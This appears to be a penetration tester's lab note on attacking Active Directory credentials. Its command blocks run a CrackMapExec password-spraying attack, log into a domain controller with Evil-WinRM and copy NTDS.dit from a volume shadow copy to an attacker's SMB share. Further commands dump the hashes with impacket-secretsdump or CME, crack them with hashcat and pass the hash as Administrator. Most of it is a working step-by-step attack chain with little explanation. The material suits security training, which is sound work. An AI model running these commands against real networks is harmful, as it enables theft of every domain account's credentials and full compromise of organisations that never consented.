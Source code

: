 ![[ADauthentication_diagram.webp]]

###### Authentication Requests
Domain joined = Domain Controller
Non-Domain joined = SAM Database

### Dictionary Attack using CrackMapExec
*GPO might be enforcing a restricted number of logon attempts*

###### Typical Company Naming Conventions
| Username                              | Example         |
| ------------------------------------- | --------------- |
| firstinitial__lastname__              | jdoe            |
| firstinitial__middleinitial__lastname | jjdoe           |
| firstname__lastname__                 | janedoe         |
| firstname.__lastname__                | jane.doe        |
| lastname.__firstname__                | doe.jane        |
| nickname                              | doedoehackstuff |
***The companies email address structure is a good indicator of the usernames (jdoe@example.com)***

#### Create a Custom list of Usernames
[Username Anarchy](https://github.com/urbanadventurer/username-anarchy) can automate username generation.

Let's say these are the OSINT gathered names:
- Ben Williamson
- Bob Bergerstien
- Jim Stevenson
- Jill Johnson
- Jane Doe

```bash
./username-anarchy -i /path/to/names.txt
```

#### Launching the Attack
Get the password for the user(s)
```bash
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

#### Capture NTDS.dit
*Stored at ==%systemroot%/ntds== on the domain controller*

##### Use Evil-WinRM to connect to DC
```bash
evil-winrm -i 10.129.201.57 -u bwilliamson -p 'P@55w0rd!'
```

##### 1. Check Local Group Membership
```cmd
net localgroup
```

We're checking to see if the account has local or domain admin rights. You need this to make a copy of the NTDS.dit file.

##### 2. Check User Account Privileges including Domain
```cmd
net user bwilliamson
```

This user has everything.

##### 3. Create Shadow Copy of C:
Use ==vssadmin== to create a [Volume Shadow Copy (VSS)](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) of whichever volume AD is on, most likely C: by default. Making a shadow copy copies the volumes that may be in use.

```Evil-WinRM cmd
vssadmin CREATE SHADOW /For=C:
```

##### 4. Copy NTDS.dit from VSS
Extract NTDS.dit to another location in prep for move to attack host.

```Evil-WinRM cmd
cmd.exe /c copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

##### 5. Transfer NTDS.dit to Attack Host
Using [[Attacking SAM]] extraction methods with impacket's smbserver.py we can move the .dit

```Evil-WinRM cmd
cmd.exe /c move C:\NTDS\NTDS.dit \\<IP>\<SHARE>
```

##### 6. Use Impacket-Secretsdump w/ HKLM\\SYS
```bash
impacket-secretsdump -ntds NTDS.dit -system SYS -hashes lmhash:nthash LOCAL -outputfile NTDS.hash
```
*Use hashcat afterwards*

***OR USE CME FOR FASTER RESULTS***

1. 
```bash
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@ssw0rd! --ntds
```
*This will dump all the hashes it can find to /home/user/.cme/logs/filename.ntds*

2. Crack with Hashcat
```bash
sudo hashcat -m 1000 <hash> <wordlist> 
```

***WHAT IF WE WEREN'T SUCCESSFUL CRACKING HASHES?***

##### Pass-the-Hash 
```bash
evil-winrm -i 10.129.201.57 -u Administrator -H "<HASH>"
```



